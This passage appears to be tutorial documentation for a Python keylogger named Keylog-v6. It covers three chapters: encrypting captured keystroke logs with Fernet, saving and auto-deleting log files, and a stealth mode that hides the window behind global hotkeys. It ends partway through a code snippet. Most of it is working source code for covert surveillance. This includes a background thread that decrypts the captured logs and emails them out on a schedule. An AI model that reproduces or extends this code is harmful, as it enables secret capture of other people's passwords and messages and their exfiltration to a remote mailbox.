### The Security Guard for Your Logs

Imagine your collected log data is a secret diary. You wouldn't want to leave it lying around where anyone could pick it up and read it, right? Encryption is like putting that diary in a very strong box and locking it with a secret key. Only someone with the correct key can open the box and read the diary.

In Keylog-v6, encryption scrambles the contents of your log files when they are saved. It turns the readable text into a jumbled mess of characters that makes no sense to anyone who doesn't have the special "secret key".

This process protects the sensitive information captured by the keylogger, ensuring that even if someone gets access to the log files, they can't easily understand their content without also having the key.

Keylog-v6 uses a powerful and widely-recommended Python library called `cryptography` for this task, specifically using a simple yet strong encryption method called `Fernet`.

### Meeting Fernet: The Secret Language

`Fernet` is a system for *symmetric encryption*. This means it uses **the exact same secret key** to both scramble (encrypt) the data and unscramble (decrypt) it. Think of it like a special lock and key – the same key that locks the box is needed to unlock it.

Fernet provides:

*   A way to **generate** a secure secret key.
*   A way to **encrypt** (scramble) data using that key.
*   A way to **decrypt** (unscramble) data using the same key.

It's designed to be secure and relatively easy for developers to use correctly.

### How Keylog-v6 Uses Encryption

Keylog-v6 incorporates encryption in two main places:

1.  **Setting up Encryption:** When the application starts, it needs to find or create its secret key. This happens in the `setup_encryption` method.
2.  **Saving Encrypted Logs:** When the application saves the collected logs from memory (`self.keys`) to a file, it uses the secret key to encrypt the data first. This happens in the `save_log` method (which is also used by the `auto_save_logs` and `email_logs_periodically` functions).
3.  **Reading/Using Encrypted Logs:** If the application needs to read an encrypted log file (for example, to send it via email), it must decrypt it using the secret key. This happens in the `email_logs_periodically` method.

### Setting Up Encryption (Under the Hood)

When the `AdvancedKeylogger` object is created in the `main()` function (as we saw in [Chapter 1: Advanced Keylogger Application](01_advanced_keylogger_application_.md)), its `__init__` method is called. One of the first things `__init__` does is call `self.setup_encryption()`.

This method is responsible for making sure the application has a secret key ready. It checks if a key file named `encryption_key.key` already exists.

*   **If the key file exists:** It reads the key from the file.
*   **If the key file does NOT exist:** It generates a brand new, unique secret key using `Fernet.generate_key()` and saves this new key to the `encryption_key.key` file so it can be used next time the application runs.

After getting the key, it creates a `Fernet` object (often called a "cipher") using that key. This `cipher` object is like the magic tool that knows how to lock and unlock things with *this specific* secret key. The application stores this `cipher` object in `self.cipher` to use later for encryption and decryption.

Here's a simplified look at the `setup_encryption` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def setup_encryption(self):
        key_file = "encryption_key.key" # The name of the file where the key is stored

        try:
            # Check if the key file already exists
            if os.path.exists(key_file):
                # If it exists, open it and read the key (needs to be read as bytes 'rb')
                with open(key_file, "rb") as f:
                    self.encryption_key = f.read()
            else:
                # If the key file doesn't exist, generate a new secret key
                self.encryption_key = Fernet.generate_key()
                # Save the new key to the file (needs to be written as bytes 'wb')
                with open(key_file, "wb") as f:
                    f.write(self.encryption_key)

            # Create a Fernet object (cipher) using the key
            # This object is used for encrypting and decrypting
            self.cipher = Fernet(self.encryption_key)

        except Exception as e:
            # Handle any errors during setup (like file permissions issues)
            messagebox.showerror("Error", f"Encryption setup failed: {str(e)}")

```

This code ensures that every time the application runs, it either gets its trusted secret key from the file or creates one if it's the first time running. The key itself is just a sequence of bytes, so the file is opened/written in binary mode (`"rb"`, `"wb"`).

Here's the flow of setting up encryption:



### Saving Encrypted Logs (Under the Hood)

When the application needs to save the collected logs from the `self.keys` list (either manually, automatically, or before emailing), it calls the `self.save_log()` method. This method gets the text from `self.keys` and then uses the `self.cipher` object created during setup to encrypt it *before* writing it to a file.

Here's a simplified look at the core encryption part inside `save_log`:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.save_log)

    def save_log(self):
        if not self.keys:
            return # Nothing to save

        # ... (code to determine log_file path) ...
        log_file = os.path.join(self.log_folder, f"log_{date}.txt")

        # 1. Get all the collected log entries as a single string
        log_content = "\n".join(self.keys)

        try:
            # 2. Encryption Step!
            #   a. The log content string must be converted to bytes (.encode())
            #   b. Use the self.cipher object to encrypt these bytes
            encrypted_content = self.cipher.encrypt(log_content.encode())

            # 3. Write the encrypted bytes to the log file (using 'wb' for binary write)
            with open(log_file, "wb") as f:
                f.write(encrypted_content)

            # ... (code to add "LOG SAVED" entry and update preview) ...

        except Exception as e:
            # Handle any errors during saving/encryption
            self.root.after(0, lambda: messagebox.showerror("Error", f"Failed to save log: {str(e)}"))

```

This process ensures that the file `log_...txt` on your disk doesn't contain easily readable text, but rather the scrambled `encrypted_content`. If you were to open one of these `.txt` files with a regular text editor, you would see a string of seemingly random characters.

Here's the flow when saving:



### Reading and Decrypting Logs (Under the Hood)

The Keylog-v6 application needs to decrypt logs when it sends them via email. The email function reads the saved, encrypted log file, decrypts it using `self.cipher`, and then sends the original, readable text content in the email body.

Here's a simplified look at the decryption part inside the `email_logs_periodically` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.email_logs_periodically)

    def email_logs_periodically(self):
        while self.is_logging and self.email_config["enabled"]:
            self.save_log() # Make sure the latest logs are saved/encrypted first

            # ... (code to determine log_file path) ...
            log_file = os.path.join(self.log_folder, f"log_{date}.txt")

            if os.path.exists(log_file):
                try:
                    # 1. Read the encrypted content from the log file (using 'rb' for binary read)
                    with open(log_file, "rb") as f:
                        encrypted_content = f.read()

                    # 2. Decryption Step!
                    #   a. Use the self.cipher object to decrypt the encrypted bytes
                    decrypted_content_bytes = self.cipher.decrypt(encrypted_content)
                    #   b. Convert the decrypted bytes back to a string (.decode())
                    content = decrypted_content_bytes.decode()

                    # 3. Use the decrypted content (e.g., for sending in an email)
                    msg = MIMEText(content)
                    # ... (code to send email using 'content') ...

                except Exception as e:
                    # Handle errors during reading/decryption/emailing
                    self.root.after(0, lambda: messagebox.showerror("Error", f"Email failed: {str(e)}"))

            # ... (code for waiting interval) ...

```

This shows the reverse process: reading the jumbled bytes from the file, passing them to `self.cipher.decrypt()`, and then decoding the resulting bytes back into a readable string.

Here's the flow when decrypting for email:



### Key Components for Data Encryption

Let's summarize the main pieces involved in data encryption:

| Component              | Description                                                       | Role in Keylog-v6                                          |
| :--------------------- | :---------------------------------------------------------------- | :--------------------------------------------------------- |
| `cryptography` Library | Python library providing cryptographic recipes.                     | Provides the Fernet symmetric encryption tool.               |
| `Fernet`               | A specific symmetric encryption system from `cryptography`.       | Used to generate keys, encrypt, and decrypt data.          |
| `encryption_key.key`   | A file stored on the disk (defaulting to the same directory).     | Stores the crucial secret key used for encryption/decryption. |
| `self.encryption_key`  | A variable in `AdvancedKeylogger` holding the secret key (bytes). | Holds the key read from or generated for the key file.     |
| `self.cipher`          | A `Fernet` object in `AdvancedKeylogger`.                         | The tool used directly to perform `encrypt()` and `decrypt()` operations. |
| `setup_encryption()`   | Method in `AdvancedKeylogger`.                                    | Handles generating/loading the key and creating `self.cipher`. |
| `save_log()`           | Method in `AdvancedKeylogger`.                                    | Encrypts the log data using `self.cipher.encrypt()` before saving. |
| `email_logs_periodically()` | Method in `AdvancedKeylogger`.                                    | Decrypts the log data using `self.cipher.decrypt()` after reading from file. |

It's crucial to understand that while encryption protects the log files from casual viewing, the security ultimately relies on keeping the `encryption_key.key` file safe and secret. If someone gets both the log files *and* the key file, they can decrypt the logs.

### Conclusion

In this chapter, we learned about **Data Encryption** and its importance for protecting the sensitive information captured by Keylog-v6. We saw how the `cryptography` library, specifically `Fernet`, is used as a symmetric encryption method, requiring a single secret key to lock and unlock data.

We explored how the application handles the secret key: generating or loading it using the `setup_encryption` method and storing it in the `encryption_key.key` file. We then saw how the `self.cipher` object, created from this key, is used by the `save_log` method to encrypt the log data before saving it to a file and by the `email_logs_periodically` method to decrypt it when needed.

Now that we know how the log data is protected, let's look at the broader topic of managing these encrypted log files on your computer.

[Next Chapter: Log File Management](07_log_file_management_.md)

---
# Chapter 7: Log File Management

Welcome back! In our last chapter, [Chapter 6: Data Encryption](06_data_encryption_.md), we learned the crucial step of protecting our captured key presses and mouse clicks using encryption. We saw how the `cryptography` library scrambles the sensitive log data using a secret key before it's saved.

But where exactly is this encrypted data saved? How is it organized? And how do we prevent the log files from taking up too much space over time? This is where the concept of **Log File Management** comes in.

### The Filing Clerk

Think of the `self.keys` list from [Chapter 5: Log Data Handling](05_log_data_handling_.md) as a temporary notepad where the application quickly jots down everything it captures. This notepad is great for a quick look (the real-time preview!), but it's temporary storage (in the computer's memory). We need a way to transfer these temporary notes into permanent files on the computer's hard drive.

The "Log File Management" component is like the diligent filing clerk for our keylogger. Its main job is to take the contents of that temporary notepad (`self.keys`), make sure it's encrypted (as we saw in Chapter 6), and then carefully file it away in a specific place, organizing it neatly. It also helps keep the filing cabinet tidy by occasionally throwing away old notes based on your instructions.

Here's what the filing clerk does:

1.  **Knows where to file:** It uses a designated folder for storing all log files.
2.  **Organizes files:** It names files logically, usually based on the date.
3.  **Takes notes from the notepad:** It gets the current list of captured events from `self.keys`.
4.  **Ensures security:** It makes sure the notes are encrypted before filing (calls the encryption process).
5.  **Writes to file:** It permanently writes the encrypted notes into a file.
6.  **Tidies up:** It can delete old files automatically if instructed.

### Setting Where Logs Go: The Log Folder

Just like a filing clerk needs to know which cabinet to use, our keylogger needs to know which folder on your computer to save the log files in.

Remember the "Settings" section in the GUI from [Chapter 3: Settings and Configuration](03_settings_and_configuration_.md)? There's an entry field specifically for the "Log Folder".

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui - snippet)

        # General Settings section
        self.general_frame = ttk.LabelFrame(self.settings_frame, text="General", padding="5")
        self.general_frame.pack(fill=tk.X, pady=5)

        # Label and Entry field for the Log Folder
        self.folder_label = ttk.Label(self.general_frame, text="Log Folder:", font=("Consolas", 10))
        self.folder_label.grid(row=0, column=0, sticky="w", padx=5)

        self.folder_entry = ttk.Entry(self.general_frame, width=40, font=("Consolas", 10))
        self.folder_entry.insert(0, self.log_folder) # <-- Shows the current default/saved folder
        self.folder_entry.grid(row=0, column=1, padx=5)

        # Button to browse for a folder
        self.folder_button = ttk.Button(self.general_frame, text="Browse", command=self.browse_folder) # <-- Calls browse_folder
        self.folder_button.grid(row=0, column=2, padx=5)

        # ... other general settings like Auto Delete ...
```

This part of the GUI setup creates the text box (`self.folder_entry`) where the log folder path is displayed and can be changed. It's initially filled with the default folder name, `keylogs`, which is stored in the `self.log_folder` variable of our `AdvancedKeylogger` object.

When you click the "Browse" button, the `self.browse_folder()` method (which we saw in Chapter 3) opens a standard window for you to select a folder. If you choose one, the path is put into the entry field and also updates `self.log_folder`.

Finally, when you click "Save Settings", the `self.save_settings()` method reads the value from the `self.folder_entry` and makes sure the `self.log_folder` variable is updated, also calling `os.makedirs(self.log_folder, exist_ok=True)` to ensure that folder actually exists on your computer.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.save_settings - snippet)

    def save_settings(self):
        # Read the log folder path from the GUI entry field
        self.log_folder = self.folder_entry.get() or "keylogs" # Use "keylogs" if the entry is empty

        # Make sure the specified folder exists. If not, create it.
        os.makedirs(self.log_folder, exist_ok=True) # exist_ok=True prevents error if folder already exists

        # ... read other settings ...
        # ... apply changes ...
        messagebox.showinfo("Success", "Settings saved.")

```

The `self.log_folder` variable is crucial because it's used by all the file management methods to know *where* to save or look for files.

### Saving the Notes: The `save_log` Method

The core task of writing the temporary log data (`self.keys`) to a permanent file is handled by the `self.save_log()` method. This method is the main filing operation.

Here's what `save_log` does:

1.  **Checks if there's anything to save:** If the `self.keys` list is empty, there's nothing to do.
2.  **Determines the file path:** It figures out the name of the file based on the current date and the `self.log_folder`. For example, logs from December 2, 2023, would go into a file like `keylogs/log_2023-12-02.txt` (assuming the log folder is `keylogs`).
3.  **Prepares the data:** It takes all the individual log entry strings from the `self.keys` list and joins them together into one large string, with each entry on a new line.
4.  **Encrypts the data:** **This is where it uses the encryption from Chapter 6!** It calls `self.cipher.encrypt()` on the data string to get the scrambled (encrypted) version.
5.  **Writes to the file:** It opens the determined file path in binary write mode (`"wb"`) and writes the `encrypted_content` bytes into the file. Opening in `"wb"` mode means it will create the file if it doesn't exist, or overwrite it if it does. This is important because logs for a single day are all saved to the *same* file for that day.
6.  **Adds a status entry:** It adds a special `[LOG SAVED]` entry to the `self.keys` list and updates the GUI preview, so you see that a save happened.

Let's look at a simplified version of the `save_log` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def save_log(self):
        if not self.keys:
            # If the list of keys is empty, there's nothing to save. Stop here.
            return

        # Get the current date to use in the filename
        date = datetime.datetime.now().strftime("%Y-%m-%d")

        # Create the full path to the log file (e.g., "keylogs/log_2023-12-02.txt")
        log_file = os.path.join(self.log_folder, f"log_{date}.txt")

        # Combine all log entries from the list into a single string
        log_content = "\n".join(self.keys)

        try:
            # --- Encryption step (as covered in Chapter 6) ---
            # Encode the string to bytes because encryption works on bytes
            log_bytes = log_content.encode()
            # Encrypt the bytes using the cipher object
            encrypted_content = self.cipher.encrypt(log_bytes)
            # --------------------------------------------------

            # Open the file in binary write mode ('wb')
            with open(log_file, "wb") as f:
                # Write the encrypted bytes to the file
                f.write(encrypted_content)

            # Clear the temporary list in memory AFTER successful saving
            # This is important to avoid saving the same data multiple times
            self.keys = [] # Clear the notepad

            # Add a special entry to the preview to show it was saved
            time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            save_status_entry = f"[{time_str}]  [LOG SAVED] (0s) [SAVED]"
            # Append this status to the NOW empty keys list (it will be the only entry)
            # This makes sure it shows up in the next preview update
            self.keys.append(save_status_entry)
            # Update the GUI preview immediately
            self.update_preview(save_status_entry) # Pass the new entry directly for quick update

        except Exception as e:
            # If something goes wrong during saving (e.g., permission error)
            # Show an error message in the GUI (using root.after to run in GUI thread)
            self.root.after(0, lambda: messagebox.showerror("Error", f"Failed to save log: {str(e)}"))
            # Note: In a real-world scenario, you might NOT clear self.keys if save failed.
            # This is a simplification in the provided code.

```

This method is the heart of saving. It gathers the notes, encrypts them, and writes them to the correct daily file, then clears the in-memory notepad (`self.keys`) to prepare for the next batch of logs.

Here's the simplified flow:



### When Saving Happens: Auto-Saving and Stopping

The `save_log` method doesn't run automatically just because a key is pressed. It needs to be *called* by other parts of the application. In Keylog-v6, saving happens in two main scenarios:

1.  **When you Stop Logging:** When you click the "Stop Logging" button, the `self.stop_logging()` method is called. One of the important steps in this method is to call `self.save_log()` one last time to make sure any remaining unsaved entries in `self.keys` are written to the log file before the application stops capturing input.

    ```python
    # File: keylogger_v6.py (inside AdvancedKeylogger.stop_logging - snippet)

        def stop_logging(self):
            # ... update state flags and GUI buttons ...
            self.status_label.configure(text="Status: Logging stopped.")

            # Call save_log to save any remaining collected keys
            self.save_log() # <-- Saves anything left in self.keys

            # ... stop listeners, clear lists, etc. ...

    ```

2.  **Automatically While Logging:** It's not practical to wait until logging stops to save, especially if logging runs for a long time. Data might be lost if the computer crashes. Keylog-v6 has an automatic saving feature that periodically saves the current `self.keys` list to the daily file. This is handled by a separate thread running the `self.auto_save_logs()` method.

    This thread is started in the `self.start_logging()` method:

    ```python
    # File: keylogger_v6.py (inside AdvancedKeylogger.start_logging - snippet)

        def start_logging(self):
            if self.is_logging:
                return # Already running

            # ... setup flags, buttons, listeners ...

            # Start the auto-save thread
            # This thread will repeatedly call save_log()
            threading.Thread(target=self.auto_save_logs, daemon=True).start()

            # ... start other threads like email sender ...

    ```

    The `auto_save_logs` method itself is a simple loop:

    ```python
    # File: keylogger_v6.py (inside AdvancedKeylogger)

    def auto_save_logs(self):
        # This loop runs in its own background thread!
        while self.is_logging: # Keep saving as long as logging is active
            # Call the main save method
            self.save_log()

            # Get the desired save interval from settings (defaults to 30 seconds)
            try:
                self.log_interval = int(self.log_interval_entry.get())
            except ValueError:
                self.log_interval = 30 # Default interval

            # Wait for the specified interval before saving again
            time.sleep(self.log_interval)

    ```

    This loop ensures that as long as `self.is_logging` is `True`, the `save_log` method is called periodically based on the "Log Interval" setting, making sure your log data is regularly written to disk.

### Tidying Up: Auto-Deleting Old Logs

Over time, the log files can accumulate and take up significant disk space. The "Auto Delete Old Logs" setting (also in the "General" settings section, seen above) allows you to automatically remove files older than a specified age (currently hardcoded to 7 days).

This cleanup is triggered when you check the "Auto Delete" checkbox in the settings and click the "Save Settings" button. The `self.save_settings()` method then calls `self.delete_old_logs()`:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.save_settings - snippet)

    def save_settings(self):
        # ... read other settings ...

        # Check if the Auto Delete setting is enabled
        if self.auto_delete.get(): # .get() gets the boolean state of the checkbox
            # If enabled, call the method to delete old logs
            self.delete_old_logs() # <-- Calls the cleanup method

        self.restart_hotkey_listener()
        messagebox.showinfo("Success", "Settings saved.")

```

The `self.delete_old_logs()` method iterates through the files in the `self.log_folder`, checks how old each file is, and removes it if it's older than 7 days.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def delete_old_logs(self):
        # Get a list of all files and folders in the log folder
        for file in os.listdir(self.log_folder):
            # Build the full path to the item
            file_path = os.path.join(self.log_folder, file)

            # Check if the item is a file AND if its name ends with ".txt"
            if os.path.isfile(file_path) and file.endswith(".txt"):
                try:
                    # Get the creation timestamp of the file
                    # os.path.getctime returns seconds since the epoch
                    creation_timestamp = os.path.getctime(file_path)
                    # Convert the timestamp to a datetime object
                    creation_time = datetime.datetime.fromtimestamp(creation_timestamp)

                    # Calculate the age of the file (current time - creation time)
                    age = datetime.datetime.now() - creation_time

                    # Check if the age is greater than 7 days
                    if age > datetime.timedelta(days=7):
                        # If it's older than 7 days, delete the file
                        os.remove(file_path)
                        # Optional: Print to console for debugging/confirmation
                        print(f"Deleted old log file: {file_path}")

                except Exception as e:
                    # Handle any errors during file processing (e.g., permission errors)
                    print(f"Failed to delete {file_path}: {e}") # Optional: Print error

```

This cleanup step helps manage disk space and keeps the log folder from growing indefinitely.

### Key Components for Log File Management

Let's summarize the main pieces involved in managing the log files:

| Component             | Description                                                     | Role in Keylog-v6                                            |
| :-------------------- | :-------------------------------------------------------------- | :----------------------------------------------------------- |
| `self.log_folder`     | String variable in `AdvancedKeylogger`.                         | Stores the path to the directory where logs are saved.       |
| `setup_folders()`     | Method in `AdvancedKeylogger`.                                  | Ensures the log and screenshot folders exist when the app starts. |
| `browse_folder()`     | Method in `AdvancedKeylogger`.                                  | Opens a file dialog to visually select the log folder.       |
| `save_log()`          | Method in `AdvancedKeylogger`.                                  | Collects data from `self.keys`, encrypts it, and writes it to the daily log file. Clears `self.keys` after saving. |
| `auto_save_logs()`    | Method in `AdvancedKeylogger`. Runs in a separate thread.       | Periodically calls `save_log` based on the log interval setting. |
| `stop_logging()`      | Method in `AdvancedKeylogger`.                                  | Calls `save_log` one final time when logging is stopped.     |
| `auto_delete`         | `tk.BooleanVar` linked to the "Auto Delete" checkbox setting.   | Stores whether auto-delete is enabled.                     |
| `delete_old_logs()`   | Method in `AdvancedKeylogger`.                                  | Iterates through the log folder and removes files older than 7 days. |
| `save_settings()`     | Method in `AdvancedKeylogger`.                                  | Reads the log folder path, ensures the folder exists, and calls `delete_old_logs` if auto-delete is enabled. |
| `os` Module           | Python's standard library for interacting with the operating system. | Used for creating folders (`os.makedirs`), joining paths (`os.path.join`), listing files (`os.listdir`), checking if something is a file (`os.path.isfile`), getting file creation time (`os.path.getctime`), and deleting files (`os.remove`). |
| `datetime` & `time`   | Python's standard libraries for dates, times, and delays.       | Used for getting current date/time for filenames, calculating file age, and pausing the auto-save loop (`time.sleep`). |

These components work together to ensure that the log data is safely and securely stored on disk in an organized manner and that old files are managed according to your settings.

### Conclusion

In this chapter, we focused on **Log File Management**, learning how the Keylog-v6 application handles the permanent storage of captured data. We saw how the `self.log_folder` setting determines the save location, how the `save_log` method takes the encrypted contents from the temporary `self.keys` list and writes them to dated files, and how this saving happens automatically in a background thread (`auto_save_logs`) and when logging is stopped (`stop_logging`). Finally, we looked at how the `delete_old_logs` method, triggered by the auto-delete setting, helps keep the log folder tidy.

Now that we understand how logs are captured, handled, encrypted, and saved, let's look at features that help control the application's visibility and behavior in the background.

[Next Chapter: Stealth and Hotkey Control](08_stealth_and_hotkey_control_.md)

---
# Chapter 8: Stealth and Hotkey Control

Welcome back! In [Chapter 7: Log File Management](07_log_file_management_.md), we saw how our Keylog-v6 application saves the captured data securely into files on your computer. Now that the application can run, listen, and save, let's talk about making it less obvious and easier to control discreetly.

If the keylogger window is always visible on your screen, it's not very stealthy! Also, constantly switching to the window to click "Pause" or "Stop" can be inconvenient or impossible if you're monitoring activity that requires the main window to be hidden.

This is where **Stealth and Hotkey Control** comes in. This feature allows you to:

1.  **Hide the main application window** so it's not visible on the screen.
2.  **Use secret keyboard combinations (hotkeys)** to trigger actions, like showing the window again or pausing the logging, without needing to interact with the visible GUI.

Think of this feature as adding a "cloak of invisibility" and a "secret remote control" to your keylogger.

### Going Invisible: Stealth Mode

Stealth mode, in this context, simply means hiding the application's main window from the screen. The application is still running in the background, listening and saving, but the visual interface is gone.

Keylog-v6 lets you enter and exit stealth mode.

#### How to Use Stealth Mode

You can toggle stealth mode in two ways:

1.  **Using the GUI Button:** Click the "Toggle Stealth" button in the application window.
2.  **Using the Stealth Hotkey:** Press the special hotkey combination you've set for stealth mode (by default, this is **F12**).

When you enter stealth mode, the window disappears. When you exit stealth mode (using either the button in the GUI if it's visible, or the hotkey), the window reappears.

#### Implementing Stealth (Under the Hood)

The magic of hiding and showing the window is quite simple thanks to the `tkinter` library used for our GUI. The main window object (`self.root`) has built-in methods for this:

*   `self.root.withdraw()`: This method hides the window. It's still running, but not visible or iconified in the taskbar.
*   `self.root.deiconify()`: This method makes a hidden or iconified window reappear.

The `AdvancedKeylogger` class has a method called `toggle_stealth()` that handles this. It keeps track of whether the window is currently hidden using a variable called `self.is_stealth`.

Let's look at a simplified `toggle_stealth` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def toggle_stealth(self):
        # Check the current state of stealth mode
        if self.is_stealth:
            # If currently in stealth, make the window visible again
            self.root.deiconify()
            self.stealth_button.configure(text="Toggle Stealth") # Update button text
            self.status_label.configure(text="Status: Stealth mode disabled.") # Update status
            self.is_stealth = False # Update the state variable
        else:
            # If not currently in stealth, hide the window
            self.root.withdraw()
            self.stealth_button.configure(text="Exit Stealth") # Update button text
            self.status_label.configure(text="Status: Stealth mode enabled.") # Update status
            self.is_stealth = True # Update the state variable

```

This method is called whenever the "Toggle Stealth" button is clicked or when the stealth hotkey is pressed. It simply checks the `self.is_stealth` flag and calls either `self.root.withdraw()` or `self.root.deiconify()` accordingly, then updates the flag and the GUI elements.

### The Secret Remote Control: Hotkeys

While the GUI button is easy, the real power of controlling a hidden application comes from hotkeys. A hotkey is a specific key or combination of keys (like F12, or Ctrl+Shift+H) that the application listens for *globally* across the system, even when it's in the background or hidden.

In Keylog-v6, hotkeys are used to:

*   Toggle Stealth Mode (default: **F12**)
*   Toggle Pause/Resume Logging (default: **F11**)

#### Setting Your Hotkeys

You can customize which hotkeys trigger these actions using the "Settings" section in the GUI, as we saw in [Chapter 3: Settings and Configuration](03_settings_and_configuration_.md). Look for the "Advanced" settings and the "Hotkeys" entry fields:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui - snippet)

        # Advanced Settings section
        self.advanced_frame = ttk.LabelFrame(self.settings_frame, text="Advanced", padding="5")
        self.advanced_frame.pack(fill=tk.X, pady=5)

        # ... other advanced settings ...

        # Label for Hotkeys
        self.hotkey_label = ttk.Label(self.advanced_frame, text="Hotkeys (e.g., f12):", font=("Consolas", 10))
        self.hotkey_label.grid(row=2, column=0, sticky="w", padx=5) # Example grid position

        # Entry field for Stealth Hotkey
        self.stealth_hotkey_entry = ttk.Entry(self.advanced_frame, width=10, font=("Consolas", 10))
        self.stealth_hotkey_entry.insert(0, self.hotkeys["stealth"]) # Show current stealth hotkey
        self.stealth_hotkey_entry.grid(row=2, column=1, sticky="w", padx=5) # Example grid position

        # Entry field for Pause Hotkey
        self.pause_hotkey_entry = ttk.Entry(self.advanced_frame, width=10, font=("Consolas", 10))
        self.pause_hotkey_entry.insert(0, self.hotkeys["pause"]) # Show current pause hotkey
        self.pause_hotkey_entry.grid(row=2, column=2, sticky="w", padx=5) # Example grid position

        # ... rest of advanced settings ...

        # Save Settings button (calls save_settings)
        self.save_settings_button = ttk.Button(self.settings_frame, text="Save Settings", command=self.save_settings)
        self.save_settings_button.pack(pady=5)
```

When you change the hotkey text boxes and click "Save Settings", the `self.save_settings()` method reads these new values and updates the `self.hotkeys` dictionary:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.save_settings - snippet)

    def save_settings(self):
        # ... read other settings ...

        # Get hotkey values from the GUI entry fields
        # Use default hotkey ("f12" or "f11") if the entry field is empty
        self.hotkeys["stealth"] = self.stealth_hotkey_entry.get() or "f12"
        self.hotkeys["pause"] = self.pause_hotkey_entry.get() or "f11"

        # Restart the hotkey listener so it starts listening for the *new* hotkeys
        self.restart_hotkey_listener() # <-- Crucial step!

        # ... perform other actions like deleting old logs ...
        messagebox.showinfo("Success", "Settings saved.")
```

Updating `self.hotkeys` isn't enough; the background listener needs to be told about the change. This is why `save_settings` calls `self.restart_hotkey_listener()`.

#### How Hotkeys Work (Under the Hood)

Unlike the main input listener (`log_keys`) which is started only when you click "Start Logging" ([Chapter 4: Input Listener](04_input_listener_.md)), the hotkey listener needs to be active as soon as the application starts.

A separate `pynput.keyboard.Listener` is created specifically for hotkeys in the `self.start_hotkey_listener()` method, which is called right in the `AdvancedKeylogger`'s `__init__` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def start_hotkey_listener(self):
        # Define what happens WHEN a key is pressed, specifically for hotkeys
        def on_hotkey(key):
            try:
                # Convert the key object to a simple string (like 'f12', 'f11') and make it lowercase
                key_str = str(key).replace("Key.", "").lower()

